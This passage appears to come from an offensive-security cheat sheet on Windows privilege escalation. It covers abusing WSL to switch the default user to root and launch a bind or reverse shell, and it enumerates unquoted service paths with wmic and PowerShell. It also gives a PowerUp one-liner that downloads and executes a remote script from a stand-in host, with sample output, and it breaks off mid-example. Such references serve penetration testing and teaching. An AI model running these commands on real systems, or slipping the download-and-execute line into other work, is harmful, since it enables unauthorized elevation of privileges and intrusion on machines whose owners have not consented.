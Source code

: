 ### EoP - Windows Subsystem for Linux (WSL)

Technique borrowed from [Warlockobama's tweet](https://twitter.com/Warlockobama/status/1067890915753132032)

> With root privileges Windows Subsystem for Linux (WSL) allows users to create a bind shell on any port (no elevation needed). Don't know the root password? No problem just set the default user to root W/ .exe --default-user root. Now start your bind shell or reverse.

```powershell
wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'
```

Binary `bash.exe` can also be found in `C:\Windows\WinSxS\amd64_microsoft-windows-lxssbash_[...]\bash.exe`

Alternatively you can explore the `WSL` filesystem in the folder `C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\`

### EoP - Unquoted Service Paths

The Microsoft Windows Unquoted Service Path Enumeration Vulnerability. All Windows services have a Path to its executable. If that path is unquoted and contains whitespace or other separators, then the service will attempt to access a resource in the parent path first.

```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

* Metasploit exploit : `exploit/windows/local/trusted_service_path`
*   PowerUp exploit

    ```powershell
    # find the vulnerable application
    C:\> powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"

    ...
    [*] Checking for unquoted service paths...
    ServiceName   : BBSvc
    Path          : C:\Program Files\Microsoft\Bing Bar\7.1\BBSvc.exe
    StartName     : LocalSystem
    AbuseFunction : Write-ServiceBinary -ServiceName 'BBSvc' -Path <HijackPath>
    ...
